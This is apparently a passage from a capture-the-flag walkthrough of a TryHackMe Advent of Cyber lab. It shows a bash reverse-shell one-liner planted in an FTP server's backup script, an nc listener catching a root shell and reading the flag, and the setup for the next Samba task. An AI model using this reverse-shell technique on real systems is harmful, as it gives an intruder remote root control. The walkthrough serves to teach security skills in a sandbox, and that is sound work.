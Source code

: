 ```bash
221 Goodbye.
```

```sh
#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!

# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
# tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server
bash -i >& /dev/tcp/10.10.235.185/4444 0>&1
```

```bash
root@ip-10-10-235-185:~# nc -lnvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.254.237 49250 received!
bash: cannot set terminal process group (1326): Inappropriate ioctl for device
bash: no job control in this shell
root@tbfc-ftp-01:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 16 15:15 .
drwxr-xr-x 24 root root 4096 Nov 16 14:07 ..
lrwxrwxrwx  1 root root    9 Nov 16 15:15 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root   27 Nov 16 15:04 flag.txt
drwxr-xr-x  3 root root 4096 Nov 16 13:57 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Nov 16 13:50 .ssh
root@tbfc-ftp-01:~# cat flag.txt
cat flag.txt
THM{even_you_can_be_santa}
```

`THM{even_you_can_be_santa}`

## Task 15 [Day 10] Networking Anyone can be Santa!

Day 10: Don't be so sElfish - Prelude

The Best Festival Company (TBFC) has since upscaled its IT infrastructure after last year's attack for all the other elves to use, including a VPN server and a few other services. You breathe a sigh of relief..."That's it, Me, Elf McEager saved the Christmas of 2020! I can't wait to---"

But suddenly, a cold shiver runs down your spine, interrupting your monologue...

You suddenly recall that Elf McSkidy had set up a Samba file server just before the attack occurred - could this have been hacked too?! What about our data...Oh no, quick! Find out what usernames may have been leaked and attempt to login to the server yourself, noting down any vulnerabilities found to report back to Elf McSkidy.
